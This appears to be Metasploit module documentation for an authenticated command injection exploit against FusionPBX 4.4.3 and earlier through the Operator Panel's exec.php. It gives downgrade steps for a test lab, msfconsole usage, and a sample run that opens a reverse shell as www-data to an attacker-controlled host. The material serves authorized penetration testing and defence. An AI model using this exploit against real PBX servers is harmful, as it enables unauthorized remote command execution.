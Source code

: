 ## Description

  This module exploits an authenticated command injection vulnerability
  in FusionPBX versions 4.4.3 and prior.

  The `exec.php` file within the Operator Panel permits users with
  `operator_panel_view` permissions, or administrator permissions,
  to execute arbitrary commands as the web server user by sending
  a `system` command to the FreeSWITCH event socket interface.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases

  At time of writing, a vulnerable version can be tested by using
  the relevant install script for the target platform from the download
  link above, which automatically installs all required dependencies,
  including FreeSWITCH and the latest version of FusionPBX.

  The version of FusionPBX can then be downgraded to a vulnerable version
  by replacing the web root directory with the contents of a vulnerable
  version, such as version 4.4.1, from the GitHub releases link above.

  On Ubuntu, downgrading can be performed as follows:

  ```
  mv /var/www/fusionpbx /var/www/fusionpbx-latest
  mkdir ~/hackyhackhack/ && cd ~/hackyhackhack/
  wget https://github.com/fusionpbx/fusionpbx/archive/4.4.1.zip
  unzip 4.4.1.zip
  mv fusionpbx-4.4.1 /var/www/fusionpbx
  ```

  In the future, downgrading may not be as simple as replacing the web
  root directory contents.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

### TARGETURI

  The base path to FusionPBX (default: `/`)

### USERNAME

  The username for FusionPBX

### PASSWORD

  The password for FusionPBX


## Scenarios

  ```
  msf > use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec 
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set username test
  username => test
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set password wBXxcY4LTAsMd46!
  password => wBXxcY4LTAsMd46!
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Authenticated as user 'test'
  [*] Sending payload (295 bytes) ...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ULzaVUoa3XPSZANH;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ULzaVUoa3XPSZANH\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.214:57626) at 2019-11-01 15:54:42 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /
  uname -a
  Linux ubuntu-19-04-x64 5.0.0-32-generic #34-Ubuntu SMP Wed Oct 2 02:06:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```

